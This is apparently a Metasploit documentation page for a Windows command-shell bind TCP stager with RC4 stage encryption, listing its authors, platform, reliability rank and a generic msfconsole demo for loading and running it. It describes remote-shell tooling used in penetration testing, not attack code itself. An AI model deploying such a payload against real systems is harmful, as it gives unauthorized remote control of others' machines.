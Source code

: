 ## Windows Command Shell, Bind TCP Stager (RC4 Stage Encryption)

Spawn a piped command shell (staged). Listen for a 
connection


## Module Name
payload/windows/shell/bind_tcp_rc4

## Authors
* spoonm
* sf
* hdm
* skape
* mihi





## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/shell/bind_tcp_rc4
msf payload(bind_tcp_rc4) > show targets
   ... a list of targets ...
msf payload(bind_tcp_rc4) > set TARGET <target-id>
msf payload(bind_tcp_rc4) > show options
   ... show and set options ...
msf payload(bind_tcp_rc4) > run
```
    
    